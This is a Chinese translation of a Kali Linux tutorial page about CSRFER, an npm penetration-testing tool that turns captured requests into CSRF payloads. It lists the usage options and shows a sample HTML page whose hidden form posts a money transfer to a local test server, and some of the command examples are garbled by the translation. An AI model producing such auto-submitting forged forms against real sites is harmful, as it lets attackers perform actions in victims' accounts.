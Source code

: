 # CSRFER:基于易受攻击的请求生成 CSRF 有效负载的工具

> 原文：<https://kalilinuxtutorials.com/csrfer/>

[![CSRFER : Tool To Generate CSRF Payloads Based On Vulnerable Requests](img/67ade269385010d94b14a4310d53a101.png "CSRFER : Tool To Generate CSRF Payloads Based On Vulnerable Requests")](https://1.bp.blogspot.com/-F1O-U9b7FZE/X4gjj9WNvfI/AAAAAAAAHyw/wkLYg2oDvmwfB-J2qyc2A2DngxNvYrvtwCLcBGAsYHQ/s728/CSRFER%25281%2529.png)

CSRFER 是一个基于易受攻击的请求生成 csrf 有效负载的工具。它解析提供的请求以生成表单或获取请求。然后，可以将有效负载嵌入到 html 模板中。

**安装**

**npm install -g csrfer**

**用途**

**用法:** csrfer【选项】

**选项:**
–版本显示版本号
-r，–要使用的请求文件的请求路径
-m，–Mode 模式生成代码。可用选项:表单、获取。(默认为 form)
-a，–Auto submit 页面加载时自动提交请求
-s，–Show 显示表单输入(仅适用于表单模式)
-o，–Output 将有效负载输出到指定文件，而不是 STDOUT
-t，–html 模板页面的模板路径。使用占位符{{CONTENT}}指定
插入代码的位置(以 html 格式，而不是 JS 格式)
-T，–default template 如果您希望将代码插入默认 html 页面，请使用此选项。
-h，–help Show help

**示例:**
CSR fer-r req . txt-m form-a 自动提交表单请求
csrfer -r req.txt -m form -s 生成并显示要手动提交的表单
CSR fer-r req . txt-m fetch-t my _ template . html 生成一个获取请求并使用提供的模板
页面

**示例输出**

```
<!DOCTYPE html>
<html>

<head>
  <title>This is Hello World page</title>
</head>

<body>
  <h1>Hello World</h1>

  <form id="csrf" name="csrf" action="http://localhost:8000/1.php" method="POST"
    enctype="application/x-www-form-urlencoded"><input id='destination' name='destination' type='hidden'
      value='123-123123-123' /><br><input id='amount' name='amount' type='hidden' value='50&#x20AC;' /><br><input
      type='submit' value='submit'></form>
</body>

</html>
```

[**Download**](https://github.com/luisfontes19/CSRFER)